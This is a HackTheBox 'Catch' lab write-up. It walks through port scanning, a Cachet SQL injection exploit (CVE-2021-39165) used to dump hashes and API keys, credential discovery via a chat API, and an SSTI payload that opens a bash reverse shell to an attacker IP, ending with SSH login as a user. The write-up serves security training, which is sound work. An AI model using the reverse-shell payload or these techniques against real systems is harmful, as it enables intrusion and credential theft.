# Catch HackTheBox Writeup
### Level: `Medium` | OS: `Linux`



## Scanning
We run nmap on all ports with scripts and software versions.

```text
PORT     STATE SERVICE VERSION                             
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)                                   
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))                                                                 
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                          
|_http-title: Catch Global Systems                                                                                    
3000/tcp open  ppp?                                                                                                   
| fingerprint-strings:                                                                                                
|   GenericLines, Help, RTSPRequest:                                                                                  
|     HTTP/1.1 400 Bad Request                                                                                        
|     Content-Type: text/plain; charset=utf-8                                                                         
|     Connection: close                                                                                               
|     Request                                                                                                         
|   GetRequest:                                                                                                       
|     HTTP/1.0 200 OK                                                                                                 
|     Content-Type: text/html; charset=UTF-8                                                                          
|     Set-Cookie: i_like_gitea=53d6077bb44d5f8b; Path=/; HttpOnly                                                     
|     Set-Cookie: _csrf=8IPZnKarz-eVCeHdRGbgDCE8Onc6MTY1MzcxNzQyOTA3ODQyMzk3MQ; Path=/; Expires=Sun, 29 May 2022 05:57:09 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly                                                         
|     X-Frame-Options: SAMEORIGIN                                                                                     
|     Date: Sat, 28 May 2022 05:57:09 GMT                                                                             
|     <!DOCTYPE html>                                                                                                 
|     <html lang="en-US" class="theme-">                                                                              
|     <head data-suburl="">                                                                                           
|     <meta charset="utf-8">                                                                                          
|     <meta name="viewport" content="width=device-width, initial-scale=1">                                            
|     <meta http-equiv="x-ua-compatible" content="ie=edge">                                                           
|     <title> Catch Repositories </title>                                                                             
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiQ2F0Y2ggUmVwb3NpdG9yaWVzIiwic2hvcnRfbmFtZSI6IkNhdGNoIFJlcG9zaXRvcmllcyIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jYXRjaC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2d
pdGVhLmNhdGNoLmh0Yjoz                                                                                                 
|   HTTPOptions:                                                                                                      
|     HTTP/1.0 405 Method Not Allowed                                                                                 
|     Set-Cookie: i_like_gitea=0a4df252a0348581; Path=/; HttpOnly                                                     
|     Set-Cookie: _csrf=gIHkagbQDdAz242PMh_hU3xPfmA6MTY1MzcxNzQzNDgxMTg0Mzg5Nw; Path=/; Expires=Sun, 29 May 2022 05:57:14 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly                                                         
|     X-Frame-Options: SAMEORIGIN                                                                                     
|     Date: Sat, 28 May 2022 05:57:14 GMT                                                                             
|_    Content-Length: 0                                                                                               
5000/tcp open  upnp?                                                                                                  
| fingerprint-strings:                                                                                                
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, RTSPRequest, SMBProgNeg, ZendJavaBridge:               
|     HTTP/1.1 400 Bad Request
|     Connection: close                                    
|   GetRequest:                                            
|     HTTP/1.1 302 Found                                   
|     X-Frame-Options: SAMEORIGIN    
|     X-Download-Options: noopen                                                                                      
|     X-Content-Type-Options: nosniff                                                                                 
|     X-XSS-Protection: 1; mode=block                                                                                 
|     Content-Security-Policy:                                                                                        
|     X-Content-Security-Policy:                                                                                      
|     X-WebKit-CSP:                                                                                                   
|     X-UA-Compatible: IE=Edge,chrome=1                                                                               
|     Location: /login                                                                                                
|     Vary: Accept, Accept-Encoding                                                                                   
|     Content-Type: text/plain; charset=utf-8                                                                         
|     Content-Length: 28                                                                                              
|     Set-Cookie: connect.sid=s%3AZA1RlVT7sNTj8pvrLGCsJEHg-t6nWOII.aMdd3ZMnOAGCxr4tNCDuGns46%2B4LDQ%2F2iOiu4ZDk2Fg; Path=/; HttpOnly
|     Date: Sat, 28 May 2022 05:57:13 GMT                  
|     Connection: close                                                                                               
|     Found. Redirecting to /login                                                                                    
|   HTTPOptions:                                                                                                      
|     HTTP/1.1 200 OK                                                                                                 
|     X-Frame-Options: SAMEORIGIN                                                                                     
|     X-Download-Options: noopen                                                                                      
|     X-Content-Type-Options: nosniff                                                                                 
|     X-XSS-Protection: 1; mode=block                                                                                 
|     Content-Security-Policy:                                                                                        
|     X-Content-Security-Policy:                                                                                      
|     X-WebKit-CSP:                                                                                                   
|     X-UA-Compatible: IE=Edge,chrome=1                                                                               
|     Allow: GET,HEAD                                                                                                 
|     Content-Type: text/html; charset=utf-8                                                                          
|     Content-Length: 8                                                                                               
|     ETag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"                                                                                                                                                                                                
|     Set-Cookie: connect.sid=s%3A0nJWVQzdeOzY2pV8lHGPwd_dQPwEtoVu.2CXOcWwGshu3hG8FWjOiQJtra2a8EBf%2BNn3Abkz%2BI0Y; Path=/; HttpOnly
|     Vary: Accept-Encoding                                                                                           
|     Date: Sat, 28 May 2022 05:57:15 GMT                                                                             
|     Connection: close                                                                                               
|_    GET,HEAD                                                                                                        
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                 
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                          
|_http-title: Catch Global Systems  

```

## Enumeration
Catch Global Systems website, they mention the integration with **Gitea**.



Download an *apk* from the website



We run the mobile app, it seems that it tries to connect to a resource that we cannot reach, we put it in the "*/etc/hosts*" file, but it still does not work.



We checked port 5000, found an authentication panel from a **GitHub** Fork.
We bypass it for the moment, as we have no valid credentials or users.



We check port 8000, we find a software called "**Cachet**" (wow, like the name of the machine).




## Exploitation
We searched for vulnerabilities for this software, we found a *SQL injection* that can be very useful for us.

##### Exploit: [CVE-2021-39165/exploit.py at main · W0rty/CVE-2021-39165](https://github.com/W0rty/CVE-2021-39165/blob/main/exploit.py)

We test the exploit, it seems to be vulnerable and we obtain the bcrypt hash of the user "*admin*":



We tried to crack the hash of the admin user, but it seems that the password does not come out.



We try to inject the same payload of the exploit with **SQLMap**, to see if we can find something useful in the database.



We review the "*users*" table and list another user named "*john*":



Dump the username, password and api-key. 



We tried to crack the hashes, but were unable to obtain the password for either user.


But we can't get it either, so we go back to the port 5000 resource, launch a **dirsearch** and several interesting routes appear.

This response is typical in API, so we will have to check if we are exfiltrating information that could be of relevance. 

##### Accounts:


##### Messages:


It seems that the API is well designed, so we will have to get credentials to access, I go back to check the apk looking for some information or another subdomain that can help.

So we search by keywords like "*api*", "*key*", "*token*".... And we see that it detects us a couple of tokens, one seems to have the same name of the web resource on port 5000



We insert the token and we see that now we can make requests.



We see that we are listing classic endpoints of an API:



We launch **wfuzz** to enumerate the different endpoints:



##### Rooms


After a while testing and combining endpoints, we found that we can read messages by room ID, we list the credentials of the user "*john*".



Now, we can access the credentials with *john*:



We list the exact version *2.4.0-dev*:



Checking *SSTI*, I found that I could do remote code execution and receive **ping** on my computer creating an incident.



##### Reverse shell
```bash
{{["bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1'"]|filter('system')|join(",")}}
```

##### Request


We listen with **netcat** and receive a connection from the victim:


We read the files of the website, we find some flat credentials of the user "*will*":



We test the creds via **SSH**, they work! We read the flag from *user.txt*:

